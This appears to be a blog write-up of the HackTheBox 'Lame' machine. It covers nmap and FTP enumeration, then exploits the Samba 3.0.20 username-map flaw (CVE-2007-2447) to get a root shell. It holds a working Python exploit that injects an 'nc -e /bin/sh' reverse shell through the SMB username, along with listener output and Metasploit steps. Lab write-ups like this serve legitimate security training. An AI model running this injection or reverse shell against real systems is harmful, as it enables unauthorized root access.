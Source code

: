 ```yaml
---
layout: post
title:  "HackTheBox - Lame"
date:   2022-05-01 17:29:02 +0100
tags: RCE CVE-2007-2447 SMB 
---
```

**Difficulty: <span style="color:green">Easy</span>**  
**Personal Difficulty: <span style="color:green">Easy</span>**   
**Rating: 4.4 / 5**  

This box is arguably one of the easiest on the site. I decided to complete it mainly because I
didn't feel confident with other boxes labelled 'easy' so I wanted to attempt one that was ranked
as easy by users. And it indeed was.  

The key to owning this box was to pay attention to software versions, and keep on the lookout for 
outdated or vulnerable versions specifically. This problem identification is what allowed me to
discover a key RCE vulnerability which I show how to exploit in 2 different ways in this walkthrough.  

### Enumeration  

To start, a ran a Nmap scan for version to identify service versions as well as running default scripts
on the remote system.

```bash
nmap -sC -sV -oN scan.nmap
```

	Nmap scan report for 10.10.10.3
	Host is up (0.019s latency).
	Not shown: 996 filtered tcp ports (no-response)
	PORT    STATE SERVICE     VERSION
	21/tcp  open  ftp         vsftpd 2.3.4
	|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
	| ftp-syst: 
	|   STAT: 
	| FTP server status:
	|      Connected to 10.10.14.21
	|      Logged in as ftp
	|      TYPE: ASCII
	|      No session bandwidth limit
	|      Session timeout in seconds is 300
	|      Control connection is plain text
	|      Data connections will be plain text
	|      vsFTPd 2.3.4 - secure, fast, stable
	|_End of status
	22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
	| ssh-hostkey: 
	|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
	|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
	139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
	Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

	Host script results:
	| smb-os-discovery: 
	|   OS: Unix (Samba 3.0.20-Debian)
	|   Computer name: lame
	|   NetBIOS computer name: 
	|   Domain name: hackthebox.gr
	|   FQDN: lame.hackthebox.gr
	|_  System time: 2022-04-20T07:11:43-04:00
	|_smb2-time: Protocol negotiation failed (SMB2)
	| smb-security-mode: 
	|   account_used: guest
	|   authentication_level: user
	|   challenge_response: supported
	|_  message_signing: disabled (dangerous, but default)
	|_clock-skew: mean: 2h00m48s, deviation: 2h49m44s, median: 46s

Ports 21, 22, 139 and 445 are open. SMB 3.0.20 was being run on Debian according to the smb-os-discovery script.
Server Message Block (SMB) is a protocol designed for file and resource sharing on a
network. It's mainly for connecting Windows computers, but can be run on Unix systems too. You can find
more about it [here](https://en.wikipedia.org/wiki/Server_Message_Block).  

I considered that SMB wouldn't be as secure on linux (which is not the case after doing some further research) or 
that they may be running a faulty version. However I didn't go into that just yet. Instead, I decided to check out the FTP
server since anonymous login was allowed. To login via FTP anonymously, use the username `anonymous` and leave
the password blank.  

	$ ftp 10.10.10.3
	Connected to 10.10.10.3.
	220 (vsFTPd 2.3.4)
	Name (10.10.10.3:infiltr8): anonymous
	331 Please specify the password.
	Password: 
	230 Login successful.
	Remote system type is UNIX.
	Using binary mode to transfer files.
	ftp> dir
	229 Entering Extended Passive Mode (|||38290|).
	150 Here comes the directory listing.
	226 Directory send OK.
	ftp>  


Looks like there's no files to be share on the server. 
I also connected to the system with SMB but found nothing of interest.
With that, I'll start to investigate the specific SMB version, 3.0.20-Debian.    

A quick google search showed me that this machine was vulnerable to [CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447).
A further search brought me to [this Metasploit script](https://www.exploit-db.com/exploits/16320). On inspection,
It seems like adding  "/=\`nohup"  and then a shell command (ending with \`) will allow for shell code execution.
`nohup` (no hangup) is a supplemental command used to keep certain processes or commands running even after logging out or disconnecting
from our shell. I'll exploit this using a script.

### <span style="color:red">Shell as Root</span>

I'll start off by showing the 'best practice' exploit, by writing a python script. All this script will do is attempt to connect to the
vulnerable system with the corrupt username and then the payload.  

```python
#!/usr/bin/python3
from smb.SMBConnection import SMBConnection

payload = "nc 10.10.14.21 4444 -e /bin/sh"
username = "/=`nohup " + payload + "`"

connection = SMBConnection(username, "", "", "")
connection.connect("10.10.10.3",445)
```
  
`10.10.14.21 4444` is my local host and port, and `10.10.10.3 445` is the remote host and port. 
This was a simple enough script, but necessary since the payload cannot be injected via smbclient. I set up a netcat listener on another
terminal and got root access; both flags captured.  

```bash
$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.3] 35336
whoami
root
cd root
ls
Desktop
reset_logs.sh
root.txt
vnc.log
```

And user flag:

```bash
cd /home
ls
ftp
makis
service
user
cd makis && ls
user.txt
```
### Metasploit method

This is essentially the same as what I did but with Metasploit.  

Searching for the script:

	msf6 > search usermap script

	Matching Modules
	================

	   #  Name                                Disclosure Date  Rank       Check  Description
	   -  ----                                ---------------  ----       -----  -----------
	   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


	Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script

	msf6 > use 0
	[*] No payload configured, defaulting to cmd/unix/reverse_netcat
	
Setting options:

	msf6 exploit(multi/samba/usermap_script) > show options

	Module options (exploit/multi/samba/usermap_script):

	   Name    Current Setting                                   Required  Description
	   ----    ---------------                                   --------  -----------
	   RHOSTS  10.10.10.3; set RPORT 445, set LHOST 10.10.14.21  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
	   RPORT   139                                               yes       The target port (TCP)


	Payload options (cmd/unix/reverse_netcat):

	   Name   Current Setting  Required  Description
	   ----   ---------------  --------  -----------
	   LHOST  192.168.50.241   yes       The listen address (an interface may be specified)
	   LPORT  4444             yes       The listen port


	Exploit target:

	   Id  Name
	   --  ----
	   0   Automatic


	msf6 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
	RHOSTS => 10.10.10.3
	msf6 exploit(multi/samba/usermap_script) > set RPORT 445
	RPORT => 445
	msf6 exploit(multi/samba/usermap_script) > set LHOST 10.10.14.21
	LHOST => 10.10.14.21
	msf6 exploit(multi/samba/usermap_script) > exploit

	[*] Started reverse TCP handler on 10.10.14.21:4444 
	[*] Command shell session 1 opened (10.10.14.21:4444 -> 10.10.10.3:46546 ) at 2022-05-02 15:58:43 +0100

We got shell as root:

```bash
whoami
root
cd root && ls
Desktop
reset_logs.sh
root.txt
vnc.log
```
